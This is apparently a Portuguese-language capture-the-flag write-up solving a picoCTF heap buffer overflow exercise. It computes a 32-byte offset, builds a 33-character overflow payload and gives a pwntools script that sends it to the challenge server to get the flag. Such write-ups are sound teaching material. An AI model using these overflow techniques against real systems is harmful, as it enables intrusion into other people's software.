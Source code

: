 ## Autor: Gebra  
  
# Heap:

A Heap é uma área da memória dinâmica(RAM) usada por programas para alocar e desalocar dados de forma flexível durante a
execução do código. E vamos explorar as seguintes vulnerabilidades: 

1.Buffer Overflow: Ultrapassar o tamanho alocado de memória em uma variável para alterar memória adjacente. 

2.UAF(Use After Free): Programa Acessa bloco de memória já liberado, permitindo a modificação dos dados.

## Exercício 0:
### Resolução via terminal:
Esse exercício foi projetado para ser de estágio inicial, por isso a Heap pode ser visualizada dentro do próprio código.
```python
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
```

Executando o código, é possivel descobrir os endereços de cada variável na heap.

![image](https://github.com/user-attachments/assets/655c496d-9e70-4afd-9f06-bb07769e6609)


Com esses dados, podemos verificar as distância entre os endereços e conseguir o offset dos dois, assim descobrimos que é 
32 bytes e que precisamos fazer um estouro desse tamanho.
Digitando esse comando no cmd, você receba a string de 33 caracteres pronta para teste.
    
    python3 -c 'print("a"*33)'

Colocando essa string como input do buffer você irá sobrescrever "pico" por "a"*32 e "bico" por "a". 
![image](https://github.com/user-attachments/assets/0c9ee24a-26aa-453a-9832-a249eb25d012)


Assim você consegue a flag ao digitar 4.

# Resolução via pwntools:
![image](https://github.com/user-attachments/assets/a63b90a8-f8c8-4770-8b1f-8519f5ac2077)


Criamos p como process para teste e depois partimos para o remote onde conseguiremos a flag verdadeira.
```python
    p = remote("tethys.picoctf.net", 55850)
```
Depois Criamos um payload para enviar para o código.
```python
    payload = "a" * 33
```
Depois enviamos o payload para o código e recebemos a flag.
```python
    p.recvuntil("choice:")

    p.sendline("2")
    p.sendline(payload)
    
    p.recvuntil("choice:")
    p.sendline("4")

    print(p.recvall())
```


## Exercício 1:
Para o restante dos exercícios vou explicar apenas pelo pwntools para acostumarmos com essa ferramenta.

